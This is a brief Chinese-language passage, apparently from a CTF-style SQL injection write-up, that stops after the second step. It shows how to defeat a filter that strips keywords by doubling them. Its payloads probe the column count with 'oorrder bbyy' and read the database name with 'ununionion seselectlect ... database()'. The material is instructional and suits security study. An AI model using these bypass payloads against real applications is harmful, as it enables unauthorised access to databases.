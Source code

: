 <img width="712" height="252" src="../_resources/watermark_type_ZmFuZ3poZW5naGVpd_d3592dee238a44e9a.png"/>  
可以看出这里是过滤了or的，其实这里by也被过滤了，所以我们尝试双写绕过，pyaload如下：

```
`admin' oorrder bbyy 3%23`

- 1

```

<img width="712" height="279" src="../_resources/watermark_type_ZmFuZ3poZW5naGVpd_356c80e713eb4497a.png"/>  
接下来就是数据库名：union和select同样被过滤了，同样尝试双写绕过，payload如下：

```
`' ununionion seselectlect 1,2,database()%23`

- 1

```
